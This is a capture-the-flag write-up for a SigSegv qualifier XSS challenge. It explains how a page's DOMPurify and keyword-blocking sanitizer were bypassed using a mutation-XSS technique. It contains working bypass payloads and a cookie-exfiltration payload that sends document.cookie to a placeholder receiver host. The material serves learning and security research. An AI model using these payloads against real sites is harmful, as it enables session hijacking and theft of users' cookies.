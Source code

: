 This year SigSegv qualifiers are back 
![alt text](https://qual.rtfm.re/e1aa117bd9a44018e2e64d8a1b95d8c8/logo.png)

# XSS challenge: History of Browser Evolution

You are tasked to steal the cookie from a web page. The target machine is running "Chrome with recent updates", so it is advisable to test it in chrome.


You have one URL to test your payloads and the other one to validate your flag. The validation page will pass the link to a bot which will trigger XSS.
```
http://qual-challs.rtfm.re:8080/
http://qual-challs.rtfm.re:8080/check
```
![Image](https://eqqn.github.io/images/hobe.jpg)
### Finding injection point
Since there is no obvious forms or input elements apparent, we look at the page source ( follow comments for my thought proccess ) :

```js
    var nuclearSanitizer = function (dirty) {
        var clean = dirty;
     //## These are directives banned by Developer
        forbiddenWords = ["onerror", "onload", "onunload", "img", "focus"];    
        
        for (const fw of forbiddenWords) {
            if (dirty.toLowerCase().includes(fw)) {
                console.log(fw);
                clean = "";
                break;
            }
        }
        return clean;
    }
    
    var getUrlParam = function (name) {
        var reg = new RegExp("(^|&)" + name + "=([^&]*)(&|$)");
        var r = unescape(window.location.search.substr(1)).match(reg);
        if (r != null) return r[2];
        return null;
    }

    var layout = getUrlParam("layout");      //## This is where the URL parameter is taken
    var clean = DOMPurify.sanitize(layout);
    
    // Hehe I made a custom sanitizer, no worriez
    clean = nuclearSanitizer(clean);

    var injectionPoint = document.getElementById("injection");
    injectionPoint.innerHTML = clean;
    injectionPoint.innerHTML = injectionPoint.innerHTML;
```

The *getUrlParam* function takes url parameter *layout* and puts it inside "injection" element of the webpage. 
Queries such as ` http://qual-challs.rtfm.re:8080/?layout=YOURSTRINGHERE ` will render on the page.

![Image](https://eqqn.github.io/images/hobe2.jpg)

However there is pesky **DOMPurify.sanitize(layout);** getting in our way of triggering the desired alert(1) box.
After giving automated tools a try ( XSStrike and Burpsuite) and trying to concatenate some form of <script>alert(1)</script> to render on the page I kept getting owned by the sanitizer. 

Alternatives from XSS cheat sheets[1][2]( that apply to chrome) didn't seem to work. However my friend point me to an interesting resource - DOMPurify bypass.

### Bypassing DOMPurify

There is an excellent write-up describing a recent vulnerability in DOMPurify, that uses browsers auto-fix feature to close the tags of HTML elements that are not properly matching.

More on this behaviour here : https://research.securitum.com/dompurify-bypass-using-mxss/

So the PoC payload referenced in the article looks like this : 

` <svg></p><style><a id="</style><img src=1 onerror=alert(1)>"> `
However it uses both **img** and **onerror** tags stripped by *NuclearSanitizer()*, so we can look once again at the cheat sheets and find other components that could do the trick. 

![Image](https://eqqn.github.io/images/hobe3.jpg)

`?layout=<svg></p><style><a id="</style><iframe src=1 onmouseover=alert(1)>"> `
With this I popped the first alert. DOMPurify is bypassed. Great, now to make it run without interaction and onto exfiltration. In this part you can get creative.

To steal the cookie, you need to make a request and transfer it to a domain you control. A convenient web service for that is "Requestbin", which allows you to make receive requests on their servers.

`?layout=<svg></p><style><a id="</style><iframe src=javascript:document.location='hxxps://REPLACE-WITH-YOUR-RECEIVER/'+ document.cookie>">`

Once we submit the full URL into the validator, a HTTP request is made to our cookie receiver server :

![Image](https://eqqn.github.io/images/hobe4.jpg)

`flag=sigsegv{pur1fy_mY_s0ul}`

This was a fun challenge, and I got to learn XSS the fun way. 


[1] Web Security Academy XSS cheat sheet https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 

[2] Payload ALL the things XSS repo https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection


